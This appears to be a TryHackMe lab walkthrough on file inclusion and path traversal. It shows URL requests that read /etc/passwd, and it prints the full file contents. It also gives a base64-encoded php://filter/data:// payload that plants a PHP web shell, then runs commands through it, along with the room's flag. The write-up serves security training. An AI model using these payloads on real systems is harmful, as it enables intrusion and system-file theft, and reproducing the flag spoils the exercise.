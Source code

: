 ### 03-Feb-24-Sat

[TryHackMe | File Inclusion, Path Traversal](https://tryhackme.com/room/filepathtraversal)

![image](https://github.com/r1skkam/TryHackMe-Walkthroughs/assets/58542375/ac342878-b0f2-468c-a2f2-428dfbe04a58)

![image](https://github.com/r1skkam/TryHackMe-Walkthroughs/assets/58542375/a32ef0ad-b180-4f8e-a598-ac5d2825c5d9)

http://10.10.246.101/lfi.php

![image](https://github.com/r1skkam/TryHackMe-Walkthroughs/assets/58542375/b9f24266-12df-4708-b2d4-afede74498af)

http://10.10.246.101/lfi.php?page=%2Fetc%2Fpasswd

![image](https://github.com/r1skkam/TryHackMe-Walkthroughs/assets/58542375/665609e5-032e-4330-902a-32b5cdf885ab)

http://10.10.246.101/playground.php?page=%2Fetc%2Fpasswd

![image](https://github.com/r1skkam/TryHackMe-Walkthroughs/assets/58542375/9921de7b-e41c-4843-9168-4b76a7c1354e)

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin
sshd:x:109:65534::/run/sshd:/usr/sbin/nologin
landscape:x:110:115::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:111:1::/var/cache/pollinate:/bin/false
ec2-instance-connect:x:112:65534::/nonexistent:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
ubuntu:x:1000:1000:Ubuntu:/home/ubuntu:/bin/bash
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
tryhackme:x:1001:1001:,,,:/home/tryhackme:/bin/bash
mysql:x:113:119:MySQL Server,,,:/nonexistent:/bin/false
```

```
php://filter/convert.base64-decode/resource=data://plain/text,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ZWNobyAnU2hlbGwgZG9uZSAhJzsgPz4+
```

![image](https://github.com/r1skkam/TryHackMe-Walkthroughs/assets/58542375/ead6c36b-6d72-48d3-818d-5806d783b74c)

```
&cmd=whoami
```

```
http://10.10.98.181/playground.php?page=php%3A%2F%2Ffilter%2Fconvert.base64-decode%2Fresource%3Ddata%3A%2F%2Fplain%2Ftext%2CPD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ZWNobyAnU2hlbGwgZG9uZSAhJzsgPz4%2B&cmd=whoami
```

![image](https://github.com/r1skkam/TryHackMe-Walkthroughs/assets/58542375/a1631b08-5a71-4ee2-bff9-d1734974817c)

```
&cmd=ls flags
```

![image](https://github.com/r1skkam/TryHackMe-Walkthroughs/assets/58542375/f16d5d5b-4193-4e22-bc8e-da9ca8d4fa75)

```
&cmd=cat flags/cd3c67e5079de2700af6cea0a405f9cc.txt
```

![image](https://github.com/r1skkam/TryHackMe-Walkthroughs/assets/58542375/cd70485e-5a74-483b-b3cd-ef24ba5c957e)

```
THM{fl4g_cd3c67e5079de2700af6cea0a405f9cc}
```

![image](https://github.com/r1skkam/TryHackMe-Walkthroughs/assets/58542375/f1f7e70d-1af7-480a-8d3e-c0953dd945c4)
